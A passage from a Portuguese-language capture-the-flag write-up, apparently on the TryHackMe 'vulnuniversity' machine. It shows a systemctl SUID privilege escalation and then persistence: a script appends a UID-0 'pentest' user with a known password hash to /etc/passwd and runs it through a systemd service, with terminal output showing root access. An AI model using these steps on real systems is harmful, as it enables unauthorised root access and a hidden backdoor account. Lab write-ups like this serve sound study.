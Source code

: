 Com esse exploit de SUID você não vai ganhar uma shell root.
> Ele vai executar esse comando como root >>> `ExecStart=/bin/sh -c "id > /tmp/output"`
{: .prompt-danger }
Pode usar ExecStart=/bin/sh -c "cat /root/root.txt"  e você ja pega sua flag.
Porém pra teste/estudo e imaginando que fosse um ambiente real de pentest, eu gostaria de ter um usuário root de fácil acesso, sem executar esse exploit sempre que acessar novamente a maquina.
Então resolvi adicionar um usuário root no /etc/passwd
### Criando usuário e senha no /etc/passwd

```shell
┌──(kali💀kali)-[~/SUID3NUM]
└─$ mkpasswd -m MD5 senha123
$1$nadkIwzJ$SmxU5RXAwnbBEJaxT/NWY/
```
{: .nolineno } 
Copie o usuário root do /etc/passwd, fica mais fácil de criar a linha   
`root:x:0:0:root:/root:/bin/bash`  
Adicione a hash no x e edite o nome root.
Ficando assim  
`pentest:\$1\$nadkIwzJ\$SmxU5RXAwnbBEJaxT/NWY/:0:0:root:/root:/bin/bash`
  

Criei um shell script porque o comando tava bugando quando colava no terminal.

Criei o script na pasta /tmp e dei permissão de execução   `chmod +x xd.sh`

```bash
#!/bin/bash
command="echo 'pentest:\$1\$nadkIwzJ\$SmxU5RXAwnbBEJaxT/NWY/:0:0:root:/root:/bin/bash' >> /etc/passwd"
/bin/sh -c "$command"
```
{: .nolineno }   


Executei linha por linha no terminal

`TF=$(mktemp).service`  
`Type=oneshot`  
`Type=oneshot`  
`ExecStart=/bin/sh -c "./tmp/xd.sh"`  
`[Install]`  
`WantedBy=multi-user.target' > $TF`  
`/bin/systemctl link $TF`  
`/bin/systemctl enable --now $TF`  

```shell
www-data@vulnuniversity:/tmp$ TF=$(mktemp).service
www-data@vulnuniversity:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "./tmp/xd.sh"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/tmp$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.cnziQke30D.service to /tmp/tmp.cnziQke30D.service.
www-data@vulnuniversity:/tmp$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.cnziQke30D.service to /tmp/tmp.cnziQke30D.service.

www-data@vulnuniversity:/tmp$ cat /etc/passwd |grep pentest
pentest:$1$nadkIwzJ$SmxU5RXAwnbBEJaxT/NWY/:0:0:root:/root:/bin/bash
www-data@vulnuniversity:/tmp$ su pentest
Password: 
root@vulnuniversity:/tmp# 
```
